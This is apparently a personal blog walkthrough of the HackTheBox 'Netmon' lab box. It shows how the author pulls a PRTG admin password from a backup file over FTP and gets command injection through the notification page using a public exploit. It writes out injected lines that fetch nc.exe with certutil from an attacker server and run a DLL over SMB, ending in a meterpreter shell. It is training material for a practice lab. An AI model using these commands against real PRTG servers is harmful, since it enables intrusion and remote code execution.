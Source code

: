 ```yaml
---
title: "HackTheBox - Netmon WT"
date: 2019-03-03T20:50:01-05:00
tags: ["hackthebox", "htb"]
draft: false
---
```



![alt text](/images/htb-Netmon/img1.png)
![alt text](/images/htb-Netmon/img2.png)

## Box IP: 10.10.10.152

# Reconnaissance

1) I started with scanning network. Here's what I found


![alt text](/images/htb-Netmon/img3.png)
![alt text](/images/htb-Netmon/img4.png)

2) Port 80,  we have a login page or PRTG Network Monitor. I found it was vulnerable for cross site Vulnerability

![alt text](/images/htb-Netmon/img5.png)


3) filezilla, I messed around with ftp 21..looking for the configuration.old file that contained the creds according to this post on reddit
  https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/
  .. But I couldnt find it.. later on I was hinted that It was a hiddden file.. So I had “force hidden files” unchecked once I checked that we found it in /programData/Paessler/PRTG Network Monitor


![alt text](/images/htb-Netmon/img6.png)
![alt text](/images/htb-Netmon/img8.png)
![alt text](/images/htb-Netmon/img9.png)
 I found it...it was in programdata/passeler/PRTG Configuration.old.bak



**prtgadmin  →  PrTg@dmin2018  
  I was getting incorrect login with this one,   until  I had help from legov
  and found that it would be PrTg@dmin2019**



![alt text](/images/htb-Netmon/img10.png)

4) In filezilla , after I enabled to show hidden files, under server>show hidden files,I f ound USER.txt in /Users/Public


![alt text](/images/htb-Netmon/img11.png)

5) With the login credentials we can log in

![alt text](/images/htb-Netmon/img12.png)
![alt text](/images/htb-Netmon/img13.png)

  This CVe Was helpful where we can run remote command through the notification page
  
  https://www.ptsecurity.com/ww-en/analytics/threatscape/pt-2018-23/
  
  
  https://www.codewatch.org/blog/?p=453
  
  https://www.exploit-db.com/exploits/46527

# I USED exploit# 46527 

6) I created a simplehttpserver to send nc.exe and payloads to  maybe try and establish a session 
![alt text](/images/htb-Netmon/img18.png)
![alt text](/images/htb-Netmon/img19.png)

7) In the "create_user()" function on the 7th line in the fig below starting from the &message_10 parameter
 we inject a html encoded command that will run through the notification page 

**test.txt|"certutil.exe -urlcache -split -f http://10.10.12.11/nc.exe c:\users\public\Music\nc.exe"** but it should be html encoded
![alt text](/images/htb-Netmon/img17.png)

![alt text](/images/htb-Netmon/img15.png)

8) A certutil get request to  httpserver, yes it was for certp.exe. I tried many things before that. But same method works to upload nc.exe.

![alt text](/images/htb-Netmon/img30.png)

9) Next I used the same script to enter another html encoded command to run nc.exe and I had a listener setup on my kali to establish a connection


![alt text](/images/htb-Netmon/img16.png)
![alt text](/images/htb-Netmon/img21.png)

# For some reason the shell from nc din't work or I didn't get a full shell#

------------------------------------------------------------------------
Here's what worked

![alt text](/images/htb-Netmon/img22.png)

10) F12 after you log-in to pullup _inspect element and get the cookie paramters
  
![alt text](/images/htb-Netmon/img23.png)
*`Inside rundl32.sh.. The most important paramenter...After "&message_10="`*

![alt text](/images/htb-Netmon/img24.png)

11) Used w3school to encode html
  
  `test.txt|"rundll32.exe \\10.10.12.11\uqMdU\test.dll,0"`
![alt text](/images/htb-Netmon/img26.png)

#`text=test.txt%7C%22rundll32.exe+%5C%5C10.10.12.11%5CuqMdU%5Ctest.dll%2C0%22`

12) running rundl32.sh12) running rundl32.sh  we see the name titanrundl2 uploaded to notification page

![lt text](/images/htb-Netmon/img29.png)

13) I used windows/smb/smb_delievery exploit with a job running on port8081
![alt text](/images/htb-Netmon/img28.png)
![alt text](/images/htb-Netmon/img27.png)
And we get a meterpreter shell session opened. Awesome

![alt text](/images/htb-Netmon/img31.png)
![alt text](/images/htb-Netmon/img32.png)


#LADIES AND GENTLEMEN WE ARE IN :))))))))))))))))))))))


![alt text](/images/htb-Netmon/img33.png)
![alt text](/images/htb-Netmon/img34.png)
![alt text](/images/htb-Netmon/img35.png)


**3018977fb944bf1878f75b879fba67cc**



DONE TOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOK ME AWILLEEEEEEEEEEEEEEEEEEEEee
